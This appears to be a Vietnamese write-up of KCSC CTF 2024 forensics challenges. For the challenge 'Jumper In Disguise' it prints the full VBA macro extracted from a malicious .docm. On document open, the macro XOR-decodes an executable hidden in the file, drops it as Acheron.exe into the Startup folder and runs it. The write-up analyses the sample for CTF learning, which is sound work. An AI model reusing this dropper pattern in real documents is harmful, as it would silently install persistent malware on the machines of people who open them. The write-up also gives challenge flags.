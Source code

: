 Hello cả nhà, đợt vừa rồi mình được 1 anh trai siêu tốt bụng cho mượn nick để chơi KCSC CTF 2024, nên hôm nay mình muốn viết writeup tất cả những bài mình giải được
và đây là năm đầu tiên mình có cơ hội tham gia giải CTF của trường mà mình đã trượt NV1 😔😔. Thui hong buồn nữa, bắt đầu nè!!!

### Externet Inplorer

Bài cho chúng ta 1 đường link và yêu cầu chúng ta tìm timestamp của nó khi được search. Challenge này khá là dễ, các bạn chỉ cần sử dụng [tool](https://dfir.blog/unfurl/) là ra nha :3 

**KCSC{2023-09-18_08:32:22.547027}**

### Jumper In Disguise

Sample của chúng ta là 1 file .docm và chúng ta phải điều tra xem nó có thực sự độc hại hay không. Với những bài dạng kiểu này, mình luôn để ý đến VBA code - những dòng code phụ trách 
việc thực thi các tác vụ tự động, và kẻ xấu có thể chỉnh sửa đoạn code này cho mục đích xấu

Đầu tiên, mình sử dụng **olevba.py** để extract toàn bộ VBA code:
<details>
<summary>
	The decompiled output
</summary>
```
  Function zzz(troll As String) As String
    Dim aaa As String
    Dim bbb As String
    Dim ccc As String
    Dim i As Integer
    aaa = ""
    For i = 1 To Len(troll) Step 2
        aaa = aaa & ChrW("&H" & Mid(troll, i, 2))
    Next i
    bbb = "4444"
    ccc = ""
    For i = 1 To Len(aaa)
        ccc = ccc & ChrW(AscW(Mid(aaa, i, 1)) Xor AscW(Mid(bbb, (i - 1) Mod Len(bbb) + 1, 1)))
    Next i
    
    zzz = ccc
End Function
Sub AutoOpen()
    MsgBox "YOU GOT BONKED"
    MsgBox "KCSC{Keep_findin_till_reveal_secret}"
    Dim troll As String
    Dim nifal As String
    troll = "7a4a5c4245565a1742525a435058461b11405b5844575c421140525c4440565911595a5c5a5c46161012"
    nifal = zzz(troll)


Dim luachua
Dim file_length As Long
Dim length As Long
file_length = FileLen(ActiveDocument.FullName)
luachua = FreeFile
Open (ActiveDocument.FullName) For Binary As #luachua
Dim lem() As Byte
ReDim lem(file_length)
Get #luachua, 1, lem
Dim eee As String
eee = StrConv(lem, vbUnicode)
Dim fff, rrr
Dim nbv
    Set nbv = CreateObject("vbscript.regexp")
    nbv.Pattern = "SUPERNOVAOVERLOAD"
    Set rrr = nbv.Execute(eee)
Dim idx

For Each fff In rrr
idx = fff.FirstIndex
Exit For
Next

En = Environ("appdata") & "\Microsoft\Windows\Start Menu\Programs\Startup"
Set fszzzzz = CreateObject("Scripting.FileSystemObject")
Dim wakuwaku() As Byte
Dim soj As Long
soj = 4296810
ReDim wakuwaku(soj)
Get #luachua, idx + 18, wakuwaku
Dim bruh
bruh = FreeFile
deced = wakuwaku

Dim mei() As Byte
mei = deced
bbb = "4444"
For i = 1 To (soj + 1)
    jdj = deced(i - 1) Xor AscW(Mid(bbb, (i - 1) Mod Len(bbb) + 1, 1))
    mei(i - 1) = jdj
    Next i

namae = En & "\" & "Acheron.exe"
Open (namae) For Binary As #bruh
Put #bruh, 1, mei

Close #bruh
Erase wakuwaku
Set ceo = CreateObject("WScript.Shell")
ceo.Run """" + namae + """" + nifal
ActiveDocument.Save
End Sub
```
</details>
